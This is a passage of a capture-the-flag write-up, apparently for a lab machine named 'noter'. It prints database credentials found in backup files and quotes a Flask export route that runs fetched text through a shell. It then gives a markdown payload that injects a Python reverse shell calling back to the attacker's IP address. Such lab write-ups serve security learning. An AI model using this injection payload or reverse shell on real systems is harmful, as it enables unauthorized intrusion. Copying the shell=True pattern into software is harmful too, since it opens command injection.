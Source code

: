 
### Step 4
Review the backup files **``app_backup_1638395546``** and we find.. 
.. **MySQL Config - `app.py`** 
```bash
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'DB_user'
app.config['MYSQL_PASSWORD'] = 'DB_password'
app.config['MYSQL_DB'] = 'app'
```


Review the older backup, **``app_backup_1635803546``**, and we find..
.. **MySQL Config - `app.py`**
```bash
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'root'
app.config['MYSQL_PASSWORD'] = 'Nildogg36'
app.config['MYSQL_DB'] = 'app'
```

Looking on the import and export functions we find and dangerous subprocess with `shell=True`, we can most likely exploit this function to get a reverse shell.
```bash
# Export remote
@app.route('/export_note_remote', methods=['POST'])
@is_logged_in
def export_note_remote():
    if check_VIP(session['username']):
        try:
            url = request.form['url']

            status, error = parse_url(url)

            if (status is True) and (error is None):
                try:
                    r = pyrequest.get(url,allow_redirects=True)
                    rand_int = random.randint(1,10000)
                    command = f"node misc/md-to-pdf.js  $'{r.text.strip()}' {rand_int}"
                    subprocess.run(command, shell=True, executable="/bin/bash")
```

Create a python3 revshell in a markdown file, and break the command synax as seen above, to execute our malicious revshell.
```bash
➜  noter cat rev.md 
';python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.26",4488));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' # '
```

Export the file and grab the shell.

![[Pasted image 20220523104542.png]]
